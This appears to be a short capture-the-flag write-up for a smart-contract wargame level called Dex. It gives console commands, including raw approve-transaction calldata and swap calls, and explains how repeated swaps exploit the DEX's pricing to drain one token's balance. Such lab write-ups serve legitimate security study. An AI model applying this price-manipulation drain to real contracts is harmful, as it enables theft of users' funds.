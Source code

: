 # In the Console

Approve contract to spend tokens: `await contract.approve(contract.address, approvalAmount)` (not working in metamask)

`sendTransaction({from:player, to:await contract.token1(), data:"0x095ea7b30000000000000000000000006666300839bD5aE87E09122D6715071AcE9112B80000000000000000000000000000000000000000000010000000000000000000"})`

`sendTransaction({from:player, to:await contract.token2(), data:"0x095ea7b30000000000000000000000006666300839bD5aE87E09122D6715071AcE9112B80000000000000000000000000000000000000000000010000000000000000000"})`

Swap max tokens: `await contract.swap(await contract.token1(), maxAmount)`

## Why?

It's possible to take advantange of the Dex's way of calculating the swap amount. By raising the disrepancy between the contract balance of both tokens, we can obtain more tokens when swapping. Thus, we keep swapping until we can calculate an exact amount to swap to drain the contract of one of the tokens balance.
